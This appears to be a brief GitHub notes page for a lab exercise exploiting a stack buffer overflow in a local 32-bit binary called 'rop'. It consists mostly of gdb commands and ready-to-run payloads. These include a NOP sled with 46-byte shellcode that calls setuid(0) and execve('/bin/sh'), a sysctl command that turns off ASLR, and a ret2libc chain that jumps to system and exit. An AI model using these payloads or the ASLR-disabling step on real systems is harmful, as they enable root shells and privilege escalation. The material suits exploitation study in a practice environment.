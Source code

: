 **Userfull debugger commands**

    gdb rop
    disas vulnerable
    break *0x08048456
    run $(python -c 'print "A"*268')
    x/200xb buffer
    >> 0xbffff230
    info break
    del <brakpoint number>

**Find adress to be replaced**

    run $(python -c 'print "A"*270')

**Buffer overflow**

    run $(python -c 'print "\x90"*222 + "\x31\xc0\xb0\x46\x31\xdb\x31\xc9\xcd\x80\xeb\x16\x5b\x31\xc0\x88\x43\x07\x89\x5b\x08\x89\x43\x0c\xb0\x0b\x8d\x4b\x08\x8d\x53\x0c\xcd\x80\xe8\xe5\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68" + "\x30\xf2\xff\xbf"')

# malicious code 46 bytes

**Turn off ASLR**
    sudo sysctl -w kernel.randomize_va_space=0

**Find <system> call**

    (gdb) print system
    >> $1 = {<text variable, no debug info>} 0xb7e41da0 <__libc_system>

**Find <exit> call**

    (gdb) print exit
    >> $2 = {<text variable, no debug info>} 0xb7e359d0 <__GI_exit>

**Find "/bin/sh" string in system library**

    (gdb) find &system,+9999999,"/bin/sh"
    x/s *((char**)environ)
    >> 0xb7f629ab

**Call libc**

    run $(python -c 'print "A"*268 + "\xa0\x1d\xe4\xb7" + "\xd0\x59\xe3\xb7" + "\xab\x29\xf6\xb7"')

